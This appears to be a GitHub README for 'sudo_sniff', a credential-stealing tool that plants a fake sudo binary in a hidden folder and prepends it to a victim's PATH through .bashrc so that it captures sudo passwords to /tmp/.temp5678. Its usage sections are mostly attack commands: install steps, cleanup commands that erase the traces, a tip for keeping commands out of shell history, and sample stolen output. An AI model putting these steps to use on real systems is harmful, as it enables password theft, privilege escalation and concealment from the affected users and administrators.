 # sudo_sniff
**sudo\_sniff** is a simple program that attempts to steal the user's password while running sudo without arousing any suspicion. The idea is to modify the user's `$PATH` in order to hijack sudo when executed by the user. This could be used in post-exploitation as an alternative route for acheiving root acces (given that the user has the correct permissions).

**sudo_sniff** will store both correct and incorrect password entries at the following location per default: `/tmp/.temp5678`

## Improvements
* ~~Hide the victim's input~~
* ~~Add function to either send the password to attacker or save it on disk.~~
* sudo may be in different locations on different systems, perhaps implement a function to locate it
* ~~[BUG] When the victim enters his input, the text asking for the password will be printed multiple times.~~

## Usage
```
hunter@nsa:~$ git clone git@github.com:mjdubell/sudo_sniff.git
hunter@nsa:~$ cd sudo_sniff/
hunter@nsa:~$ make
hunter@nsa:~$ ./sudo whoami
```

#### Post Exploitation
```
victim@server:~$ mkdir $HOME/.payload
victim@server:~$ gcc -Wall -g -o $HOME/.payload/sudo sudo_sniff.c
victim@server:~$ echo 'export PATH="$HOME/.payload:$PATH"' >> $HOME/.bashrc
```
*Note: Make sure `sudo` is executable.*

##### Cleanup
```
victim@server:~$ rm -rf $HOME/.payload; rm /tmp/.temp5678; sed '/export PATH="$HOME\/\.payload:$PATH"/d' .bashrc > tmp && mv tmp .bashrc
```
*Note: If the HISTCONTROL environment variable is set to "ignorespace" or "ignoreboth", adding a space before the command will prevent it from showing up when running `history`.*

##### Retrieve the password
```
victim@server:~$ cat /tmp/.temp5678
victim:mypasword:ERROR
victim:mypassword:SUCCESS
```

## Contributing
1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Commit your changes: `git commit -am 'Add some feature'`
4. Push to the branch: `git push origin my-new-feature`
5. Submit a pull request :D
